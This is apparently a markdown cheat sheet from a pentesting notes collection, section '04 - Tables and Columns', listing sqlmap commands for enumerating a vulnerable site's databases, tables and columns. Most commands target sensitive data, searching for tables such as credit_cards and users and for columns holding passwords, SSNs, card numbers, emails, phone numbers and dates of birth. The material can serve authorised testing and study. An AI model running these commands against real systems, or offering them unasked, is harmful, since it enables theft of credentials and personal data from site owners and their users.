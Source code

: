 # 04 - Tables and Columns

Search Tag(s): #sqlmap #enumeration-and-discovery

## 4.1 - Tables Enumeration

- Search particular keywords of database, tables and columns

```
$ sqlmap -u "<URL>" --random-agent --search -D <database> -C user,pass,username,password
```

- Retrieve relation (tables)

```
$ sqlmap -u "<URL>" --random-agent -D <database> --tables
```

- Count number of tables

```
$ sqlmap -u "<URL>" --random-agent -D <database> --tables --count
```

- Search for specific tables

```
$ sqlmap -u "<URL>" --search -T credit_cards,users
```

## 4.2 - Columns Enumeration

```
$ sqlmap -u "<URL>" --random-agent -D <database> -T users --columns
```

- Retrieve SQL statements that was executed on the DBMS

```
$ sqlmap -u "<URL>" --random-agent --statements
```

- Retrieve SQL comments (to sensitive data).

```
$ sqlmap -u "<URL>" --random-agent --comments
```

- Search for specific tables

```
$ sqlmap -u "<URL>" --search -C email,contact,number,mobile,mobile_alt,phone,telephone,fax,user,username,uname,pass,password,passwd,pwd,ssn,cc,ccn,ip,userip,lastip,address,name,fullname,sex,gender,nationality,state,country,postcode,dob
```